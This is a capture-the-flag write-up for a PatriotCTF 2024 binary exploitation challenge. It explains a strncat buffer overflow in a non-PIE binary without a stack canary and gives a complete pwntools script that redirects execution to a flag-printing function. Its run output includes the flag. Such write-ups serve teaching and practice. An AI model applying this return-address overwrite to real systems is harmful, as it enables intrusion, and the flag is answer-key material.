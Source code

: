## pwn/not-so-shrimple-is-it

Peel back the shell, unless you eat shrimp with the shell.  
`nc chal.competitivecyber.club 8884`

**Given:** `shrimple`

## Analysis

The given file `shrimple` is a 64-bit ELF executable.
```bash
ramenhost@ctf$ checksec --file shrimple 
[*] '/home/ramenhost/Git/ctf-writeups/patriot-ctf-2024/pwn/not-so-shrimple-is-it/shrimple'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

The Ghidra decompilation of the `main` function is shown below.
![main](shrimple-main.png)

The code also has a function named `shrimp()` that will print the flag, but it is not invoked in the `main` function.

## Solution

The `strncat()` call in `main` function results in a buffer overflow. By exploiting this, we can overwrite the return address of the `main` function with the address of the `shrimp` function to print the flag. The ELF has no canary and no PIE, so we can easily exploit the buffer overflow vulnerability.

However, there is a catch. The `strncat()` stops copying when it encounters a null byte. The address of the `shrimp` function is only 3 bytes (remaining 5 \x00). The existing value of return address is to `__libc_start_main` which has 6 non-null bytes.

For example,
```
Existing return address: 0x7fbaee4013ef
shrimp address: 0x401282
After overwriting: 0x7fba00401282
```
In above example, `strncat` stopped after coping 3 bytes and added one NULL terminator.
But we need to zeroize two more bytes. Luckily, we can send input three times, so we use first two times to zeroize the MSB bytes.

### exploit.py
```python
from pwn import *

context.log_level = 'info'
context.terminal = ['tmux', 'splitw', '-v']
context.arch = 'x86_64'

target = './shrimple'
target_elf = ELF(target)

# io = process(target)
# io = gdb.debug(target, gdbscript='''
# break *0x4013ef
# continue
# ''')
io = remote('chal.competitivecyber.club', 8884)

io.recvrepeat(1)
io.sendline(cyclic(42)) # write 0x00 to 6th byte
io.sendline(cyclic(41)) # write 0x00 to 5th byte
# Address of shrimp function adjusted for stack alignment
io.sendline(cyclic(38) + p64(0x0401282)) 

info(io.recvuntil(b'}'))
io.close()
```

## Flag
```bash
ramenhost@ctf:~/Git/ctf-writeups/patriot-ctf-2024/pwn/not-so-shrimple-is-it$ python3 exploit.py 
[+] Opening connection to chal.competitivecyber.club on port 8884: Done
[*] Adding shrimp...
    You shrimped the following: so easy and so shrimple, have fun!aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaaka
    
    Remember to just keep it shrimple!
    >> Adding shrimp...
    You shrimped the following: so easy and so shrimple, have fun!aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaak
    
    Remember to just keep it shrimple!
    >> Adding shrimp...
    You shrimped the following: so easy and so shrimple, have fun!aaaabaaacaaadaaaeaaafaaagaaahaaaiaaaja_\x12@
    Thats it, hope you did something cool...
    pctf{ret_2_shr1mp_90cbba754f}
[*] Closed connection to chal.competitivecyber.club port 8884
```